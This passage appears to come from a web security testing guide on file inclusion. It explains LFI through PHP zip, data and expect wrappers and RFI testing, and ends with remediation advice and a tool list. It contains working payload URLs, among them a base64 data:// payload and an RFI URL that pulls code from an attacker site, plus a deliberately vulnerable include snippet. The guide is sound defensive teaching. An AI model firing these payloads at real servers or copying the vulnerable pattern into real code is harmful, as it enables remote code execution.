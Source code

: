 Since on our sample the `.php` extension is concatenated to our payload, the request to `https://vulnerable_host/preview.php?file=zip://../avatar/target.jpg%23code` will result in the execution of the `code.php` file existing in the malicious ZIP file.

##### PHP Data

Available since PHP 5.2.0, this wrapper expects the following usage: `data://text/plain;base64,BASE64_STR` where `BASE64_STR` is expected to be the base64 encoded content of the file to be processed. It's important to consider that this wrapper would only be available if the option `allow_url_include` would be enabled.

In order to test for LFI using this wrapper, the code to be executed should be base64 encoded. For example, `<?php phpinfo(); ?>` would be encoded as: `PD9waHAgcGhwaW5mbygpOyA/Pg==` and the payload would be represented as: `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`.

##### PHP Expect

This wrapper, which is not enabled by default, provides access to processes `stdio`, `stdout`, and `stderr`. Given in the format `expect://command`, the server would execute the provided command using `BASH` and return the result.

### Testing for Remote File Inclusion

Since RFI occurs when URLs passed to `include` statements are not properly sanitized, in a black-box testing approach, we should look for scripts that take filenames as parameters. Consider the following PHP example:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against an allow list), so this snippet of code is vulnerable to this type of attack. Consider the following URL:

`https://vulnerable_host/vuln_page.php?file=https://attacker_site/malicous_page`

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

## Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible, the application can maintain an allow list of files that may be included by the page, and then use an identifier (for example, the index number) to access the selected file. Any request containing an invalid identifier should be rejected so that there is no opportunity for malicious users to manipulate the path.
Check out the [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) for good security practices on this topic.

## Tools

- [kadimus](https://github.com/P0cL4bs/Kadimus)
- [LFI Suite](https://github.com/D35m0nd142/LFISuite)
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org)
